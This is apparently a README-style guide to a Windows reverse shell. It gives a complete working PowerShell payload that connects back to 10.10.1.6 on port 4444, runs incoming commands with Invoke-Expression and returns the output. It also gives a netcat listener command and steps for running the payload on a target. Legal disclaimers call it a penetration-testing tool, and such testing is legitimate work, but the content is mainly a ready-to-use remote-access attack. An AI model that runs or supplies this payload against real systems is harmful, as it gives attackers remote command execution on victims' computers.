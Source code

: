 ### **Reverse Shell Setup & Execution Guide**

## **Overview**
This document provides instructions for setting up and using a **Windows Reverse Shell** to connect from a target Windows machine back to an attacker's machine. The reverse shell allows an attacker to remotely execute commands on the target system by initiating a connection from the target to the attacker’s listener.

### **Important Disclaimer**
This tool is intended for ethical penetration testing, security research, or authorized security assessments only. Unauthorized use is illegal and unethical. Always obtain explicit permission before testing any system.
---
## **Requirements**
### **Attacker Machine**
1. **Netcat** or any other listener for receiving connections from the target system.
   - Use `nc` (Netcat) to listen for incoming connections:
     ```shell
     nc -lvnp 4444
     ```

2. **PowerShell** (on the target machine):
   - The script uses PowerShell to execute commands on the target system.

### **Target Machine (Windows)**
- Windows PowerShell, which is available on most modern versions of Windows.
  
## **Payload Script Explanation**

### **PowerShell Reverse Shell Script:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.1.6', 4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535 | % { 0 };
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String);
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
};
$client.Close();
```

### **Explanation:**
1. **TCP Connection**: The reverse shell creates a TCP connection to the attacker's machine using the specified IP (`10.10.1.6`) and port (`4444`).
2. **Data Stream**: Once connected, it listens for commands and executes them using `iex` (Invoke-Expression).
3. **Command Output**: The result of each command is sent back to the attacker, and this process continues until the connection is closed.

---

## **Setup Instructions**

### **Step 1: Set Up Listener on Attacker Machine**
On your Kali (attacker) machine, open a terminal and start a listener to receive the incoming reverse shell connection:
```bash
nc -lvnp 4444
```
This will start Netcat on port `4444`, listening for incoming connections from the target machine.

### **Step 2: Deliver the Payload to Target Machine**
 **Manual Execution**: 
   You can manually execute the script on the target machine by copying and pasting it into a PowerShell window.
   
---

## **Legal Disclaimer**

This tool is intended for use only in authorized penetration tests, security assessments, or other lawful security-related activities. Unauthorized access to computers and networks is illegal and unethical. Always obtain explicit written permission before using this tool on any system that you do not own or have authorization to test.

